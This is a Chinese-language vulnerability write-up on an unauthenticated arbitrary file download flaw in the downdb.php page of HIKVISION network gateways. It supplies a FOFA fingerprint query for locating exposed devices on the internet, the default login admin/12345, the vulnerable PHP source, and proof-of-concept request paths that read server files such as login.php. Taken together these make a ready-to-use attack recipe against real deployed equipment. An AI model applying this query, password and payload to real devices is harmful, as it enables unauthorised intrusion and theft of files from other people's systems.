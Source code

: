 # HIKVISION 联网网关 downdb.php 任意文件读取漏洞

## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
HIKVISION 联网网关，流媒体管理服务器
```

## FOFA

```
"杭州海康威视系统技术有限公司 版权所有" && title=="联网网关"
```

## 漏洞复现

默认密码：`admin/12345`

![image-20220519174002167](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191740359.png)

出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```

![image-20220519174022222](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191740299.png)